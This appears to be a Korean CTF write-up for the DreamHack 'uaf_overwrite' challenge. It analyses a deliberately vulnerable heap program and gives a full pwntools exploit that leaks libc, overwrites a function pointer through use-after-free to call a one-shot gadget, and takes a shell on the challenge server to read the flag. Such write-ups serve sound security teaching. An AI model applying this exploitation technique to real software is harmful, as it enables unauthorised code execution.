# [DreamHack] uaf_overwrite

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Use After Free에서 실습하는 문제입니다.
>
> Release: [uaf_overwrite.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8548759/uaf_overwrite.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160267645-6429e274-e4d6-4967-b263-23613f525fde.png)

## Analysis

### struct Human & struct Robot

```c
struct Human {
  char name[16];
  int weight;
  long age;
};

struct Robot {
  char name[16];
  int weight;
  void (*fptr)();
};
```

`struct Human` 구조체는 `name`, `weight`, `age`로 구성되어 있고, `Robot` 구조체는 `name`, `weight`과 함수 포인터 `fptr`로 구성되어 있다.

### human_func() & robot_func()

```c
void human_func() {
  int sel;
  human = (struct Human *)malloc(sizeof(struct Human));

  strcpy(human->name, "Human");
  printf("Human Weight: ");
  scanf("%d", &human->weight);

  printf("Human Age: ");
  scanf("%ld", &human->age);

  free(human);
}

void robot_func() {
  int sel;
  robot = (struct Robot *)malloc(sizeof(struct Robot));

  strcpy(robot->name, "Robot");
  printf("Robot Weight: ");
  scanf("%d", &robot->weight);

  if (robot->fptr)
    robot->fptr();
  else
    robot->fptr = print_name;

  robot->fptr(robot);

  free(robot);
}
```

`robot`을 `malloc()`으로 할당하므로, 메모리가 0으로 초기화되지 않는다. `robot`이 할당되었을 때 `fptr`이 0이 아니면 `fptr()`을 호출한다.

`struct Human`과 `struct Robot`은 크기가 같으므로, `human_func()`와 `robot_func()`를 연달아 호출하면 `human`으로 할당되었던 청크가 그대로 `robot`으로 할당된다. 그러면 `human->age`에 입력했던 값이 `robot->fptr` 위치에 그대로 남아있게 된다. 따라서 원하는 주소를 호출할 수 있다.

### custom_func()

```c
int custom_func() {
  unsigned int size;
  unsigned int idx;
  if (c_idx > 9) {
    printf("Custom FULL!!\n");
    return 0;
  }

  printf("Size: ");
  scanf("%d", &size);

  if (size >= 0x100) {
    custom[c_idx] = malloc(size);
    printf("Data: ");
    read(0, custom[c_idx], size - 1);

    printf("Data: %s\n", custom[c_idx]);

    printf("Free idx: ");
    scanf("%d", &idx);

    if (idx < 10 && custom[idx]) {
      free(custom[idx]);
      custom[idx] = NULL;
    }
  }

  c_idx++;
}
```

원하는 크기의 청크를 할당받고 데이터를 입력받은 후 바로 free시키는 함수이다.

## Exploit

### Leak libc

unsorted bin 크기의 청크를 free시키면 forward pointer와 backward pointer에 `main_arena`의 주소가 들어가는 것을 이용하여 libc 주소를 leak할 수 있다.

```python
# leak libc

custom(0x500, 'a', 1)
robot(1)  # prevent coalescence
custom(0x100, 'a', 0)

mainarena = u64(custom(0x500, 'a' * 8, 0)[-6:].ljust(8, b'\x00')) - 96  # main_arena
libc = mainarena - mainarena_offset  # libc base
oneshot = libc + oneshot_offset  # oneshot gadget
```

### Call oneshot gadget

UAF 취약점을 이용하여 `robot->fptr`에 oneshot gadget의 주소를 넣어서 셸을 획득할 수 있다.

```python
# call oneshot gadget

human(1, oneshot)
robot(1)
```

### Full exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/uaf_overwrite')
    mainarena_offset = 0x3ebc40
    oneshot_offset = 0x10a2fc
else:
    r = remote('host1.dreamhack.games', 15064)
    mainarena_offset = 0x3ebc40
    oneshot_offset = 0x10a41c

sla = r.sendlineafter
sa = r.sendafter

def human(weight, age):
    sla('> ', '1')
    sla('Human Weight: ', str(weight))
    sla('Human Age: ', str(age))

def robot(weight):
    sla('> ', '2')
    sla('Robot Weight: ', str(weight))

def custom(size, data, idx):
    sla('> ', '3')
    sla('Size: ', str(size))
    if size >= 0x100:
        sa('Data: ', data)
        r.recvuntil('Data: ')
        data = r.recvline()[:-1]
        sla('Free idx: ', str(idx))
        return data


# leak libc

custom(0x500, 'a', 1)
robot(1)  # prevent coalescence
custom(0x100, 'a', 0)

mainarena = u64(custom(0x500, 'a' * 8, 0)[-6:].ljust(8, b'\x00')) - 96  # main_arena
libc = mainarena - mainarena_offset  # libc base
oneshot = libc + oneshot_offset  # oneshot gadget


# call oneshot gadget

human(1, oneshot)
robot(1)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 15064: Done
[*] Switching to interactive mode
$ cat flag
DH{deb9ad0e1712772c3365e202f7283114}
```
